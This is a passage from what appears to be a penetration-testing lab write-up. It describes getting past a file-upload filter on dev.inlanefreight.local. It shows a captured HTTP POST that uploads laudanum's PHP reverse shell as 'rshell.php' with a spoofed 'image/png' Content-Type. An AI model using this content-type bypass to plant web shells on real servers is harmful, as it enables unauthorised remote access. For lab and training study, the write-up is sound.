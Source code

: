 ![](attachments/aen_13.png)

It allows upload function.
When I try uploading text file, it returns an error.

![](attachments/aen_14.png)

So I prepared laudanum's `php-reverse-shell.php`, and change its parameter, and change the type to `asdf` when it's captured on `Burpsuite`. Then this will be taken as image file.

```http
POST /upload.php HTTP/1.1
Host: dev.inlanefreight.local
User-Agent: Mozilla/5.0 (X11; Linux aarch64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=---------------------------140828297639066885742388510122
Content-Length: 5834
Origin: http://dev.inlanefreight.local
Connection: keep-alive
Referer: http://dev.inlanefreight.local/upload.php
Upgrade-Insecure-Requests: 1

-----------------------------140828297639066885742388510122
Content-Disposition: form-data; name="file"; filename="rshell.php"
Content-Type: image/png

<?php
// php-reverse-shell - A Reverse Shell implementation in PHP
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net
```

I uploaded it, and got a message as follows;

![](attachments/aen_15.png)
